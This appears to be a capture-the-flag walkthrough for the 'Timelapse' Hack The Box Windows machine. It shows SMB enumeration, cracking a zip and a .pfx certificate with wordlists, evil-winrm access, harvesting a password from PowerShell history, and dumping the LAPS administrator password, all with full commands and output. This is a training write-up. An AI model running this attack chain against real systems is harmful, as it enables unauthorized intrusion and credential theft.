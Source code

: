 ## aggenda

``` mermaid
graph TD
    A[START] --> B(nmap)
    B --> C(smbmap)
    C --> D(smbclient)
    D --> E(ANALYSIS WINRM_BACKUP.ZIP)
    E --> F(CRACK AND READ .PFX FILE)
    F --> G(WINRM)
    G --> H(PRIVILEGE ESCALATION)
    H --> I(PASSWORD VIA LAPS)
    I --> J[END]
```

## Search
### nmap
- command  
`sudo nmap -sC -sV -T4 10.10.11.152`
- result

<details><summary>summary</summary>
  
<pre>
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -T4 10.10.11.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 22:33 EDT
Nmap scan report for 10.10.11.152
Host is up (0.30s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-07-01 10:34:13Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap
3269/tcp open  globalcatLDAPssl?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h59m57s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-07-01T10:34:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.73 seconds
</pre>

</details>

### smbmap
- command
  - -H target
  - -u user_name  
  `smbmap -H 10.10.11.152 -u anonymous`
- result

<details><summary>summary</summary>
<pre>
┌──(kali㉿kali)-[~]
└─$ smbmap -H 10.10.11.152 -u anonymous           
[+] Guest session       IP: 10.10.11.152:445    Name: 10.10.11.152                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        <span style="color:red">Shares                                                  READ ONLY</span>
        SYSVOL                                                  NO ACCESS       Logon server share 

</pre>
</details>

### smbclient
- command
  - -N no-pass
  `smbclient -N \\\\10.10.11.152\\Shares`
- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~]
└─$ smbclient -N \\\\10.10.11.152\\Shares         
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021
c
                6367231 blocks of size 4096. 1258944 blocks available
smb: \> cd HelpDesk\
smb: \HelpDesk\> dir
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021

                6367231 blocks of size 4096. 1258072 blocks available
smb: \HelpDesk\> get LAPS_Datasheet.docx
getting file \HelpDesk\LAPS_Datasheet.docx of size 104422 as LAPS_Datasheet.docx (10.7 KiloBytes/sec) (average 10.7 KiloBytes/sec)
smb: \HelpDesk\> get LAPS_OperationsGuide.docx
getting file \HelpDesk\LAPS_OperationsGuide.docx of size 641378 as LAPS_OperationsGuide.docx (69.0 KiloBytes/sec) (average 39.1 KiloBytes/sec)
smb: \HelpDesk\> get LAPS_TechnicalSpecification.docx
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as LAPS_TechnicalSpecification.docx (50.1 KiloBytes/sec) (average 39.8 KiloBytes/sec)
smb: \HelpDesk\> cd ../
smb: \> dir
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 1230207 blocks available
smb: \> cd Dev
smb: \Dev\> dir
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                6367231 blocks of size 4096. 1229718 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (1.4 KiloBytes/sec) (average 36.6 KiloBytes/sec)
smb: \Dev\> SMBecho failed (NT_STATUS_CONNECTION_RESET). The connection is disconnected now


</pre>

</details>

### zip2john.
- command  
`zip2john ./winrm_backup.zip > zip.hashes`  
`sudo gunzip /usr/share/wordlists/rockyou.txt.gz`  
`john ./zip.hashes --wordlist=/usr/share/wordlists/rockyou.txt`  

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ john ./zip.hashes --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:14 DONE (2023-06-30 22:51) 0.06756g/s 234412p/s 234412c/s 234412C/s surkerior..suppamas
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

┌──(kali㉿kali)-[~/HTB_dir]
└─$ unzip winrm_backup.zip                                   
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: supremelegacy
  inflating: legacyy_dev_auth.pfx    
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$ ls
LAPS_Datasheet.docx  LAPS_OperationsGuide.docx  LAPS_TechnicalSpecification.docx  legacyy_dev_auth.pfx  winrm_backup.zip  zip.hashes
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$
</pre>

</details>

### CRACK AND READ .PFX FILE
- command
  - pkcs12
    - use .pfx   
`openssl pkcs12 -info -in ./legacyy_dev_auth.pfx`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ openssl pkcs12 -info -in ./legacyy_dev_auth.pfx
Enter Import Password:
MAC: sha1, Iteration 2000
MAC length: 20, salt length: 20
Mac verify error: invalid password?

┌──(kali㉿kali)-[~/Documents]
└─$ git clone https://github.com/crackpkcs12/crackpkcs12.git
Cloning into 'crackpkcs12'...
remote: Enumerating objects: 93, done.
remote: Total 93 (delta 0), reused 0 (delta 0), pack-reused 93
Receiving objects: 100% (93/93), 198.94 KiB | 2.12 MiB/s, done.
Resolving deltas: 100% (37/37), done.

┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ sudo apt install pkg-config         
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done


┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ sudo apt install libssl-dev 
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done

                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ ./configure                
checking for a BSD-compatible install... /usr/bin/install -c
checking whether build environment is sane... yes
checking for a thread-safe mkdir -p... /usr/bin/mkdir -p
checking for gawk... gawk
checking whether make sets $(MAKE)... yes
checking for gcc... gcc
checking whether the C compiler works... yes
checking for C compiler default output file name... a.out
checking for suffix of executables... 
checking whether we are cross compiling... no
checking for suffix of object files... o
checking whether we are using the GNU C compiler... yes
checking whether gcc accepts -g... yes
checking for gcc option to accept ISO C89... none needed
checking for style of include used by make... GNU
checking dependency style of gcc... gcc3
configure: creating ./config.status
config.status: creating Makefile
config.status: creating src/Makefile
config.status: executing depfiles commands
checking for pkg-config... /usr/bin/pkg-config
checking pkg-config is at least version 0.9.0... yes
checking for DEPS... yes
                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ make                       
Making all in src
make[1]: Entering directory '/home/kali/Documents/crackpkcs12/src'
gcc -DPACKAGE_NAME=\"\" -DPACKAGE_TARNAME=\"\" -DPACKAGE_VERSION=\"\" -DPACKAGE_STRING=\"\" -DPACKAGE_BUGREPORT=\"\" -DPACKAGE_URL=\"\" -I.     -g -O2 -MT crackpkcs12.o -MD -MP -MF .deps/crackpkcs12.Tpo -c -o crackpkcs12.o crackpkcs12.c
mv -f .deps/crackpkcs12.Tpo .deps/crackpkcs12.Po
gcc  -g -O2   -o crackpkcs12 crackpkcs12.o -lpthread -lcrypto 
make[1]: Leaving directory '/home/kali/Documents/crackpkcs12/src'
make[1]: Entering directory '/home/kali/Documents/crackpkcs12'
make[1]: Nothing to be done for 'all-am'.
make[1]: Leaving directory '/home/kali/Documents/crackpkcs12'
                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/crackpkcs12]
└─$ sudo make install          
Making install in src
make[1]: Entering directory '/home/kali/Documents/crackpkcs12/src'
make[2]: Entering directory '/home/kali/Documents/crackpkcs12/src'
 /usr/bin/mkdir -p '/usr/local/bin'
  /usr/bin/install -c crackpkcs12 '/usr/local/bin'
make[2]: Nothing to be done for 'install-data-am'.
make[2]: Leaving directory '/home/kali/Documents/crackpkcs12/src'
make[1]: Leaving directory '/home/kali/Documents/crackpkcs12/src'
make[1]: Entering directory '/home/kali/Documents/crackpkcs12'
make[2]: Entering directory '/home/kali/Documents/crackpkcs12'
make[2]: Nothing to be done for 'install-exec-am'.
make[2]: Nothing to be done for 'install-data-am'.
make[2]: Leaving directory '/home/kali/Documents/crackpkcs12'
make[1]: Leaving directory '/home/kali/Documents/crackpkcs12'
                                                                                                                                     
</pre>

</details>

### crackpkcs12
- command
`crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx

Dictionary attack - Starting 2 threads

*********************************************************
Dictionary attack - Thread 1 - Password found: thuglegacy
*********************************************************


┌──(kali㉿kali)-[~/HTB_dir]
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nocerts -out private.pem -nodes 
Enter Import Password:
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$ ls
LAPS_Datasheet.docx        LAPS_TechnicalSpecification.docx  private.pem       zip.hashes
LAPS_OperationsGuide.docx  legacyy_dev_auth.pfx              winrm_backup.zip
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -out public.pem -clcerts -nokeys
Enter Import Password:
                                                                                                                                     
┌──(kali㉿kali)-[~/HTB_dir]
└─$ ls
LAPS_Datasheet.docx        LAPS_TechnicalSpecification.docx  private.pem  winrm_backup.zip
LAPS_OperationsGuide.docx  legacyy_dev_auth.pfx              public.pem   zip.hashes

</pre>

</details>

## Initial Access
### evil-winrm
- command
`evil-winrm -i 10.10.11.152 -c public.pem -k private.pem -S`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ evil-winrm -i 10.10.11.152 -c public.pem -k private.pem -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> dir
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ../
*Evil-WinRM* PS C:\Users\legacyy> dir


    Directory: C:\Users\legacyy


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/25/2021   8:25 AM                Desktop
d-r---       10/25/2021   8:22 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos


*Evil-WinRM* PS C:\Users\legacyy> cd Desktop
*Evil-WinRM* PS C:\Users\legacyy\Desktop> dir


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         7/1/2023   3:16 AM             34 user.txt


*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
e93896b45e77c0069ff4960135d4d221
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\legacyy\Desktop> net users /domain

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\legacyy\Desktop> net users svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.


</pre>

</details>

### powershell command history
- file path
`C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

- result

<details><summary>summary</summary>

<pre>

*Evil-WinRM* PS C:\Users\legacyy\Desktop> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
*Evil-WinRM* PS C:\Users\legacyy\Desktop> 

</pre>

</details>

### svc_deploy Initial Access
- command
`git clone https://github.com/kfosaaen/Get-LAPSPasswords.git`
`evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S -r timelapse -s /home/kali/Documents/Get-LAPSPasswords`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~/HTB_dir]
└─$ evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S -r timelapse -s /home/kali/Documents/Get-LAPSPasswords
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Warning: Password is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords.ps1
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords


Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 2-[7;Yh%,-Q4%tTt9z8AH9Y@
Expiration : 7/6/2023 3:16:24 AM

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 2-[7;Yh%,-Q4%tTt9z8AH9Y@
Expiration : 7/6/2023 3:16:24 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 2-[7;Yh%,-Q4%tTt9z8AH9Y@
Expiration : 7/6/2023 3:16:24 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 2-[7;Yh%,-Q4%tTt9z8AH9Y@
Expiration : 7/6/2023 3:16:24 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA


</pre>

</details>

### administrator Initial Acess
- command
`evil-winrm -i 10.10.11.152 -u administrator -p '2-[7;Yh%,-Q4%tTt9z8AH9Y@' -S -r timelapse`

- result

<details><summary>summary</summary>

<pre>

┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.152 -u administrator -p '2-[7;Yh%,-Q4%tTt9z8AH9Y@' -S -r timelapse
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Warning: Password is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../
*Evil-WinRM* PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/23/2021  11:27 AM                3D Objects
d-r---       10/23/2021  11:27 AM                Contacts
d-r---         3/3/2022   7:48 PM                Desktop
d-r---       10/23/2021  12:22 PM                Documents
d-r---       10/25/2021   2:06 PM                Downloads
d-r---       10/23/2021  11:27 AM                Favorites
d-r---       10/23/2021  11:28 AM                Links
d-r---       10/23/2021  11:27 AM                Music
d-r---       10/23/2021  11:27 AM                Pictures
d-r---       10/23/2021  11:27 AM                Saved Games
d-r---       10/23/2021  11:27 AM                Searches
d-r---       10/23/2021  11:27 AM                Videos


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd C:\Users\TRX\Desktop

*Evil-WinRM* PS C:\Users\TRX\Desktop> 
*Evil-WinRM* PS C:\Users\TRX\Desktop> type root.txt

</pre>

</details>
